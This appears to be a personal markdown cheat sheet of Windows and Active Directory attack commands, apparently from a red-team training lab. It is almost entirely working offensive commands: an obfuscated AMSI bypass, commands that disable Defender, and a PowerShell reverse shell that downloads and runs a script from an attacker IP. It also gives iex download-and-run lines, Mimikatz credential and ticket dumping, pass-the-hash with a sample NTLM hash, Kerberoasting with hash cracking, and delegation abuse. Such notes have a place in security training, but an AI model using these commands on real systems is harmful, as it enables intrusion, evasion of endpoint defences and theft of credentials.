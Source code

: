 # Transfer

## Client - get files

#### HTTP

```
certutil -urlcache -split -f "http://10.9.228.20/hijackme.dll" C:\temp\hijackme.dll
```

#### FTP

#### SMB

## Server - host files

HTTP server on port 80 
```powershell
Add-Type -AssemblyName "System.Web";$Hso=New-Object Net.HttpListener;$Hso.Prefixes.Add("http://+:80/");$Hso.Start();While ($Hso.IsListening){$HC=$Hso.GetContext();$HRes=$HC.Response;if($HC.Request.RawUrl -eq '/server/shutdown'){$Hso.Stop()};$HRes.Headers.Add("Content-Type",[System.Web.MimeMapping]::GetMimeMapping($HC.Request.RawUrl));$Stream=[System.IO.File]::OpenRead((Join-Path $Pwd ($HC.Request.RawUrl)));$HRes.ContentLength64=$Stream.Length;$Stream.CopyTo($HRes.OutputStream);$Stream.Close();$HRes.Close()};
```

# Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Invoke-Command --ScriptBlock ${function:Invoke-Mimikatz} -ComputerName
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Copy-Item C:\Users\pastudent149\Documents\PowerView.ps1 -Destination .\PowerView.ps1 -FromSession $sessTo149
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
iex(iwr http://192.168.50.149/Invoke-Mimikatz.ps1)
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Run command
```cmd
runas /user:[Domain]\[user] cmd
```

Add content to file
```powershell
Add-Content IM.ps1 "Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::lsa /patch' "
```


## Enumeration

Current privs
```powershell
whoami /priv
```
WMI from powershell
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
Get Process name and its owner
```powershell
Get-Process -IncludeUserName
```

Get current domain
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain];$ADClass::GetCurrentDomain()
```


#### Bloodhound
```powershell
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```


#### PowerView

- [PowerView](https://github.com/lwierzbicki/PowerSploit/tree/master/Recon)
- [PowerSploit](https://powersploit.readthedocs.io)




### Attack

#### Over pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```

#### Pass the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krb_tkt.kirbi"'
```


#### Kerberoast

Get Kerberos ticket for user with SPN
```powershell
Get-NetUser -SPN | select serviceprincipalname
Request-SPNTicket -SPN "<serviceprincipalname>"
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Crack kerberoast hashes
```powershell
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```
Make user Kerberaostable
```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
Set-DomainObject -Identity sqlreportuser -SET @{serviceprincipalname='sqlreportuser/funcrop.local'}
Set-DomainObject -Identify sqlreportuser -Clear serviceprincipalname
```
Check ACLs
```powershell
Invoke-ACLScanner | ?{$_.IdentityReferenceName -match 'jumpsrvadmin'}
```

### Unconstrained Delegation
Servers with uncontrained delegations
```powershell
Get-NetComputer -Unconstrained | select -ExpandProperty name
```
Dump tickets
```powershell
cd .\userX
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
Use PowerView to wait Domain Admin to access resource on specific host
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
(dump tickets)
```
Reuse ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\userX\[0;6f5638a]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
Invoke-Command -ScriptBlock{whoami;hostname} -computername dcorp-dc
```


#### Mimikatz


Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Get credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
Get credentials from SAM
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
Dump creds and certs
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```
Export kerberos tickets
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
